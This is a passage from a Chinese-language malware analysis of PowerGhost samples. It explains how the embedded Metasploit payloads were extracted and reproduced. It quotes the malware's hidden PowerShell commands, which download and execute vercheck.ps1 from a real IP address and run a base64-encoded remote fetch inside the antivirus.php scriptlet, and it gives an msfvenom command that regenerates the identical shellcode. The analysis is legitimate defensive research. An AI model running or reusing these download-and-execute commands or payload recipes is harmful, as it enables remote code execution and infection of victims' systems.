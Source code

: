 ```python title="extract_msf_payload.py"
    print(f"x64 MSF payload 提取成功（{len(x64_msf_payload)} 字节）")
    print(f"保存到：{output_x64}")
```

分离出来的 MSF payload：

- [antitrojan_ssssssss_msf_x86.bin](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_ssssssss_msf_x86.bin)
- [antitrojan_ssssssss_msf_x64.bin](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/deobfuscated/antitrojan_ssssssss_msf_x64.bin)

其中包含命令：

```powershell
cmd /c powershell -nop -noni -w hidden "$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding ));if(($a -eq $null) -or (!($a.contains('Systems Manage Filter')))) {IEX(New-Object Net.WebClient).DownloadString('http://185.234.218.40/vercheck.ps1 ')}"
```

即如果没有发现病毒持久化任务，则下载 [vercheck.ps1](#vercheckps1) 进行感染。

如果使用同样的命令生成 `windows/exec` ShellCode：

```
msfvenom -p windows/exec CMD='cmd /c powershell -nop -noni -w hidden "$a=([string](Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding ));if(($a -eq $null) -or (!($a.contains(\'Systems Manage Filter\')))) {IEX(New-Object Net.WebClient).DownloadString(\'http://185.234.218.40/vercheck.ps1 \')}" ' -f raw -o msf_windows_exec_x86.bin EXITFUNC=thread
```

则会获得与病毒 MSF payload 一模一样的结果：

```
$ sha256sum msf_windows_exec_x86.bin antitrojan_ssssssss_msf_x86.bin
adcc8a63a554f8d2689e9b1ec4db31e12132dcf0bfcccac7e1ca05708d5cd9a3  msf_windows_exec_x86.bin
adcc8a63a554f8d2689e9b1ec4db31e12132dcf0bfcccac7e1ca05708d5cd9a3  antitrojan_ssssssss_msf_x86.bin
```

## antivirus.php

Scriptlet 脚本，在 `antitrojan.ps1` 创建的计划任务中访问执行，样本：[antivirus.php](https://github.com/13m0n4de/powerghost-malware-samples/blob/main/samples/antivirus.php)，内容如下：

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="Test"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c powershell.exe -nop -noni -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBtAGEAaQBsAC4AdABvADAAbABzAC4AYwBvAG0AOgA0ADQAMwAvAHYAZQByAGMAaABlAGMAawAuAHAAcwAxACcAKQApAA==";
            new ActiveXObject("WScript.Shell").Run(ps,0,true);

        ]]>
</script>
</registration>
</scriptlet>
```
